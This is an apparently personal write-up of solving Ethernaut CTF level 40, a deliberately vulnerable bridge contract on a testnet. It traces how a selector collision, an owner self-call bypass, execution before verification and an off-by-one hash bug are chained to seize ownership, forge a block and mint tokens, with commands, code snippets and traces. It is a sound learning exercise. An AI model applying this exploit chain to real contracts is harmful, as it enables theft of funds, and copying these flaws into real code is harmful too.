





# NotOptimisticPortal - Security Investigation Log

**Level 40** - Ethernaut CTF  
**Target**: `0xA0E9092e469B53eb28825189007556244482cEC4`  

---

## Table of Contents

- [First Contact and Wrong Turns](#first-contact-and-wrong-turns)
  - [Initial Read](#initial-read)
  - [Spotting the Obvious (or so I thought)](#spotting-the-obvious-or-so-i-thought)
  - [The Selector Hunt Begins](#the-selector-hunt-begins)
  - [First Dead End: Hunting for submitNewBlock Collision](#first-dead-end-hunting-for-submitnewblock-collision)
  - [Finally Found It](#finally-found-it)
  - [First Attack Attempt](#first-attack-attempt)
  - [The Circular Dependency Problem](#the-circular-dependency-problem)
  - [Dead End #2: Salt Manipulation](#dead-end-2-salt-manipulation)
- [The Off-by-One Discovery](#the-off-by-one-discovery)
  - [Fresh Eyes on the Hash Computation](#fresh-eyes-on-the-hash-computation)
  - [The Breakthrough](#the-breakthrough)
  - [Architecture Design](#architecture-design)
- [The Merkle Proof Wall](#the-merkle-proof-wall)
  - [Reality Check](#reality-check)
  - [First Attempt at Proof Generation](#first-attempt-at-proof-generation)
  - [Hash Mismatch Hell](#hash-mismatch-hell)
  - [Found the Bug](#found-the-bug)
  - [Giving Up (Temporarily)](#giving-up-temporarily)
- [Standing on the Shoulders of Giants](#standing-on-the-shoulders-of-giants)
  - [The Search](#the-search)
  - [Rebuilding the Proof Generator](#rebuilding-the-proof-generator)
  - [It Works](#it-works)
  - [Simulation](#simulation)
  - [Execution](#execution)
- [Post-Mortem: The Kill Chain](#post-mortem-the-kill-chain)
- [What I Learned](#what-i-learned)
- [Acknowledgments](#acknowledgments)
- [Artifacts](#artifacts)

---

## First Contact and Wrong Turns

### Initial Read

Started analyzing `NotOptimisticPortal.sol`. First impression: this thing is trying very hard to look like a legitimate Optimism-style bridge. Cross-chain message verification, Merkle Patricia Tries, RLP encoding... The works.

The hints from Ethernaut mention:
- Function Selectors
- CEI pattern
- Merkle Patricia Tries and RLP encoding

That last one already makes me nervous. MPT proofs are notoriously painful to work with.

### Spotting the Obvious (or so I thought)

Found several suspicious patterns almost immediately:

**The weird function names:**
```
transferOwnership_____610165642(address)
updateSequencer_____76439298743(address)
submitNewBlock_____37278985983(bytes)
governanceAction_____2357862414(address,bytes)
```

Those numeric suffixes scream "crafted selector". Someone deliberately chose those numbers to create a collision. The question is: collision with what?

**The self-call bypass in onlyOwner:**
```solidity
modifier onlyOwner() {
    require(msg.sender == owner || msg.sender == address(this), "Caller not owner");
    _;
}
```

That `address(this)` check is a massive red flag. If the contract can call itself, it can bypass owner restrictions.

**The CEI violation:**
```solidity
function executeMessage(...) external nonReentrant {
    // ... hash computation ...

    for(uint256 i; i < _messageData.length; i++){
        _executeOperation(_messageReceivers[i], _messageData[i], false);  // EXECUTE
    }

    _verifyMessageInclusion(...);  // VERIFY (too late!)

    executedMessages[withdrawalHash] = true;  // EFFECTS
    _mint(_tokenReceiver, _amount);
}
```

Classic. Operations run before verification. But with `nonReentrant`, they probably thought they were safe. Spoiler: they weren't.



### The Selector Hunt Begins

The hint says "Function Selectors". I need to find what those weird functions collide with.

The `_executeOperation` function has this check:
```solidity
require(bytes4(callData[0:4]) == bytes4(0x3a69197e), "Invalid message entrypoint");
```

So every operation MUST start with `0x3a69197e`. Let me compute what that is:

```bash
$ cast sig "onMessageReceived(bytes)"
0x3a69197e
```

OK, so all operations must call `onMessageReceived(bytes)`. But the portal doesn't implement that function... Unless one of those weird functions happens to share the same selector?

### First Dead End: Hunting for submitNewBlock Collision

My first instinct was to look for a collision with `submitNewBlock`. If I could call `submitNewBlock` through the "message receiver" mechanism, I could inject my own L2 state. Spent a solid hour on this.

```bash
$ cast sig "submitNewBlock_____37278985983(bytes)"
0xa39a5ab9
```

Nope. `0xa39a5ab9` != `0x3a69197e`.

What about `updateSequencer`?

```bash
$ cast sig "updateSequencer_____76439298743(address)"
0x91970802
```

Also nope.

`governanceAction`?

```bash
$ cast sig "governanceAction_____2357862414(address,bytes)"
0x80665db8
```

Still no.

### Finally Found It

After wasting time on the wrong functions:

```bash
$ cast sig "transferOwnership_____610165642(address)"
0x3a69197e
```

There it is. `transferOwnership` and `onMessageReceived` share the same selector. The numeric suffix `610165642` was specifically chosen to create this collision.

This means: if I call `executeMessage` with `target = portal` and `calldata = 0x3a69197e...`, the selector check passes (it thinks it's `onMessageReceived`), but when the portal receives the call, it routes to `transferOwnership` instead.

Combined with the `address(this)` bypass in `onlyOwner`... I can make the portal transfer ownership to whoever I want.

### First Attack Attempt

Theory: Call `executeMessage` with `receivers = [portal]` and `data = [transferOwnership(me)]`. The portal calls itself, bypasses `onlyOwner`, and I become owner.

Wrote a quick test script. Let me try with empty proofs and see what happens:

```
Traces:
  [15215] portal::executeMessage(player, 0, [portal], [0x3a69197e000000...], 0, ProofData({...}), 0)
    ├─ [3613] portal::transferOwnership_____610165642(player)
    │   └─ ← [Stop]
    └─ ← [Revert] RLP item cannot be null.
```

The `transferOwnership` call **succeeded**. It returned `[Stop]`, not `[Revert]`. The ownership transfer actually happened... and THEN it reverted on the RLP parsing.

The CEI violation is real. Operations execute before verification. But the whole transaction still rolls back because verification fails.

### The Circular Dependency Problem

So I can become owner... but only if verification passes. And for verification to pass, I need valid Merkle proofs. And to get valid Merkle proofs, I need to control the L2 state. And to control the L2 state, I need to be sequencer. And to be sequencer, I need to be owner. And to be owner... I need valid proofs.



The hint said "If a hash cycle seems impossible to solve, look for a way to break the loop."

How do you break an impossible cycle?

### Dead End #2: Salt Manipulation

Maybe I'm overcomplicating this. What if there's already a valid message hash in the L2 state that I can use?

The withdrawal hash is computed as:
```solidity
keccak256(abi.encode(tokenReceiver, amount, accumulatedReceivers, accumulatedDatas, salt))
```

If I can find the right combination of parameters that produces a hash that already exists in storage...

Spent way too long trying different salt values, different amounts, different receiver addresses. Queried the contract state:

```bash
$ cast storage 0xA0E9092e469B53eb28825189007556244482cEC4 11
0xd7d3685b57d9897755fad850b19f7c43debfded002e18a9e8e5b63639882b6f9
```

That's the L2 state root at index 0. I'd need to somehow prove a message exists in that state trie. Without access to the actual L2 state data, this is a dead end.

---

## The Off-by-One Discovery

### Fresh Eyes on the Hash Computation

Came back to the code after sleeping on it. Started tracing through `_computeMessageSlot` more carefully:

```solidity
function _computeMessageSlot(...) internal pure returns(bytes32){
    bytes32 messageReceiversAccumulatedHash;
    bytes32 messageDatasAccumulatedHash;
    if(_messageReceivers.length != 0){
        for(uint i; i < _messageReceivers.length - 1; i++){
            messageReceiversAccumulatedHash = keccak256(abi.encode(messageReceiversAccumulatedHash, _messageReceivers[i]));
            messageDatasAccumulatedHash = keccak256(abi.encode(messageDatasAccumulatedHash, _messageDatas[i]));
        }
    }
    return keccak256(abi.encode(...));
}
```

Hold on. Read that loop condition again.

`i < _messageReceivers.length - 1`

If I have 2 receivers, the loop runs for `i = 0` only. It never processes `i = 1`.

If I have 1 receiver, the loop runs for `i < 0`, which is false. It never executes at all.

**The last element of the array is never included in the hash.**

This is huge. The hash that gets verified doesn't include the last operation. But `executeMessage` still executes ALL operations:

```solidity
for(uint256 i; i < _messageData.length; i++){  // This loop uses < length, not < length-1
    _executeOperation(_messageReceivers[i], _messageData[i], false);
}
```

So if I send 2 operations:
- Operation[0]: Gets included in the verified hash
- Operation[1]: Executes but ISN'T in the hash

I can piggyback arbitrary code on top of a "legitimate" message.

### The Breakthrough

Been staring at the CEI violation and the off-by-one for an hour. Then it hit me.

The operations execute BEFORE verification. What if during the operations, I change the state that verification depends on?

Specifically: what if I become owner, then sequencer, then submit a new block with MY OWN state root... all BEFORE `_verifyMessageInclusion` runs?



I don't need to break into the existing L2 state. I just need to replace it with my own state before verification happens.

The off-by-one means operation[1] (my callback) doesn't affect the verified hash. I just need valid proofs for operation[0], which I'm crafting myself.

### Architecture Design

I need a callback contract that:
1. Receives `onMessageReceived(bytes)` from the portal
2. Calls back to `updateSequencer(self)` (we're owner at this point)
3. Calls back to `submitNewBlock(crafted_header)`
4. The crafted header contains a state root I control



The contract itself is straightforward. Deployed it:

```
Exploiter deployed at: 0x78deAe9b662E84cB74de0592bda3b871f747FCB9
```

Now comes the hard part.

---

## The Merkle Proof Wall

### Reality Check

I need to generate:
1. A storage trie proving `withdrawalHash => 0x01` exists
2. A state trie proving `L2_TARGET` account exists with my storage root
3. An RLP-encoded block header with my state root
4. Merkle proofs for both tries

I've worked with Merkle trees before. But Merkle Patricia Tries? With RLP encoding? In the specific format that Optimism's libraries expect?

This is going to hurt.

### First Attempt at Proof Generation

Started writing a TypeScript script with `@ethereumjs/trie`. First problem: computing the withdrawal hash.

The contract uses:
```solidity
keccak256(abi.encode(tokenReceiver, amount, receiversHash, datasHash, salt))
```

And `receiversHash` is:
```solidity
keccak256(abi.encode(previousHash, receiver))
```

I tried using viem's `encodePacked`:
```typescript
const transferCalldata = encodePacked(
  ["bytes4", "address"],
  [targetSelector, params.exploiter]
);
```

Got:
```
Error: Module '"viem"' has no exported member 'padLeft'
```

Wrong import. Fixed it. Then realized `encodePacked` isn't even what I need - Solidity's `abi.encode` is NOT packed encoding. Each element gets padded to 32 bytes.

### Hash Mismatch Hell

Rewrote using `encodeAbiParameters`. Generated proofs. Tested.

The contract computed a different hash than my script.

Debugging this is miserable. I'm comparing hex strings trying to figure out where the encoding diverges:

**My script:**
```
Withdrawal hash: 0x8f3a2b1c...
```

**Contract (from trace):**
```
withdrawalHash: 0x7081a32c...
```

Completely different. Something's wrong with how I'm building the calldata or accumulating the hashes.

### Found the Bug

The calldata for `transferOwnership` via selector collision isn't just `selector + address`. When you call a function with `abi.encodeWithSelector`, the address gets padded:

```
0x3a69197e                                                         // selector (4 bytes)
000000000000000000000000 78deAe9b662E84cB74de0592bda3b871f747FCB9  // address (32 bytes, left-padded)
```

I was encoding just `selector + raw_address` (24 bytes total instead of 36).

Fixed. Hashes still don't match.

### Giving Up (Temporarily)

Three hours of staring at hex dumps. I'm going in circles. Time to see if anyone else has solved this.

---

## Standing on the Shoulders of Giants

### The Search

Found exactly one writeup: **@carlitox477** on HackMD.

Reading through it... OK, he understood the same attack vector. Selector collision, CEI violation, callback mechanism. But his approach to the Merkle proofs is different.

Key insight from his writeup: the proof structure needs to match exactly what `Lib_SecureMerkleTrie` expects. The key for account lookup is `keccak256(address)`, not the raw address. The key for storage lookup is `keccak256(slot)`, not the raw slot.

That's why my proofs weren't working. I was using raw keys instead of hashed keys.

### Rebuilding the Proof Generator

Rewrote the TypeScript script from scratch, this time paying attention to:

1. **Storage key**: `keccak256(withdrawalHash)` - the "secure" in SecureMerkleTrie means keys are hashed
2. **Account key**: `keccak256(L2_TARGET)`
3. **Storage value**: RLP-encoded `0x01`
4. **Account value**: RLP-encoded `[nonce, balance, storageRoot, codeHash]`

The block header format:
```typescript
const header = [
    parentHash,           // Must match portal.latestBlockHash()
    ommersHash,          // Empty ommers hash constant
    beneficiary,         // Zero address is fine
    stateRoot,           // OUR CRAFTED ROOT
    transactionsRoot,    // Empty trie root
    receiptsRoot,        // Empty trie root
    logsBloom,           // 256 zero bytes
    difficulty,          // 0
    number,              // latestBlockNumber + 1
    gasLimit,            // 30000000
    gasUsed,             // 0
    timestamp,           // latestBlockTimestamp + 1 (MUST be greater)
    extraData,           // empty
    mixHash,             // zeros
    nonce                // zeros
];
```

### It Works

```bash
$ npx ts-node generateProofs.ts 0xf350B91b... 0xA0E9092e... 0x78deAe9b... 0xed20f024... 60806040 1606824023 1000000000000000000 0

=== NotOptimisticPortal Attack Data Generator ===

Step 1: Computing withdrawal hash...
  Withdrawal hash: 0x7081a32cfe2c96f6a8768beef20a12682086b40668ec48b5d9b877e90b406cdc

Step 2: Creating storage trie...
  Storage root: 0x94d4944f152a8043690ef61b743e7ca158bf11b37125a58cc3f286411372a850

Step 3: Creating state trie...
  State root: 0xbabcc4e7460fae7b54f1aab4c3930cb6443c1180adc26860c442221a1808d867

Step 4: Creating block header...
  Block header length: 508 bytes

Step 5: Encoding proofs...

=== Attack Data Generated ===
```

The withdrawal hash matches what the contract computes. Finally.

### Simulation

```bash
$ forge script ExecuteAttack.s.sol:ExecuteAttackScript --rpc-url $SEPOLIA_RPC_URL -vvvv
```

Output (truncated):
```
[408730] portal::executeMessage(...)
    ├─ [5613] portal::transferOwnership_____610165642(0x78deAe9b...)
    │   └─ ← [Stop]
    ├─ [136321] 0x78deAe9b...::onMessageReceived(0x)
    │   ├─ [403] portal::owner() [staticcall]
    │   │   └─ ← [Return] 0x78deAe9b662E84cB74de0592bda3b871f747FCB9
    │   ├─ emit OwnershipClaimed(newOwner: 0x78deAe9b...)
    │   ├─ [22703] portal::updateSequencer_____76439298743(0x78deAe9b...)
    │   │   └─ ← [Stop]
    │   ├─ emit SequencerSet(newSequencer: 0x78deAe9b...)
    │   ├─ [68461] portal::submitNewBlock_____37278985983(0xf901f9a0ed20f024...)
    │   │   └─ ← [Stop]
    │   ├─ emit BlockSubmitted(...)
    │   └─ ← [Return]
    ├─ emit Transfer(from: 0x0, to: 0xf350B91b..., value: 1000000000000000000)
    └─ ← [Stop]
```

No revert. The `Transfer` event fired. Tokens minted.

### Execution

```bash
$ forge script ExecuteAttack.s.sol:ExecuteAttackScript --rpc-url $SEPOLIA_RPC_URL --private-key $PRIVATE_KEY --broadcast

== Logs ==
  --- Before Attack ---
  Owner: 0x488748B25625422E83dE55dca8338319A6667b7c
  Sequencer: 0x0000000000000000000000000000000000000000
  Buffer Counter: 1
  Player Balance: 0

  --- After Attack ---
  Owner: 0x78deAe9b662E84cB74de0592bda3b871f747FCB9
  Sequencer: 0x78deAe9b662E84cB74de0592bda3b871f747FCB9
  Player Balance: 1000000000000000000

  ========================================
  SUCCESS! Tokens minted to player!
  ========================================
```

Done.

---

## Post-Mortem: The Kill Chain

Looking back, the attack chains four distinct vulnerabilities:



Each vulnerability alone wouldn't be exploitable:
- Selector collision without self-call bypass: can't call transferOwnership
- Self-call bypass without CEI violation: ownership transfer reverts with verification
- CEI violation without off-by-one: our callback would be in the verified hash
- Off-by-one without the others: can execute unverified code but can't become sequencer

Together, they form a complete kill chain.

---

## What I Learned

**On selector collisions**: Those weird numeric suffixes weren't random. Someone ran a script to find numbers that would create a 4-byte collision with `onMessageReceived(bytes)`. In production, this would be caught by any serious audit. But it's a good reminder to always verify what selector a function actually has.

**On CEI**: The contract had `nonReentrant`. The developers probably thought they were protected against callback attacks. But CEI isn't just about reentrancy - it's about ensuring checks happen before ANY effects. Here, the "effect" of executing operations happened before the "check" of verifying proofs.

**On off-by-one errors**: In crypto code, these are lethal. The difference between `< length` and `< length - 1` meant the difference between verified and unverified execution.

**On Merkle Patricia Tries**: I severely underestimated how painful these would be. The combination of RLP encoding, key hashing, and the specific proof format expected by the Optimism libraries turned what should have been "just generate a proof" into a multi-hour debugging session. Without @carlitox477's writeup pointing me toward the correct key hashing approach, I might still be staring at mismatched hex strings.

---

## Acknowledgments

Massive thanks to **@carlitox477** for publishing the only writeup I could find on this challenge. The Merkle proof generation was the wall I couldn't climb alone. His explanation of how `Lib_SecureMerkleTrie` handles key hashing was the missing piece that made my proofs work.

His writeup: https://hackmd.io/@carlitox477/SJt0W0h-Zl

---

## Artifacts

```
src/levels/40_NotOptimisticPortal/
├── CallbackExploiter.sol          # Attack contract
├── NotOptimisticPortal.sol        # Original challenge contract
└── EXPLOIT_REPORT.md              # This document

script/levels/40_NotOptimisticPortal/
├── ExecuteAttack.s.sol            # Final attack script
├── NotOptimisticPortalAttack.s.sol # Debug/analysis scripts
├── generateProofs.ts              # Merkle proof generator
└── package.json                   # Node dependencies
```

---

*Investigation concluded. Level 40 solved.*
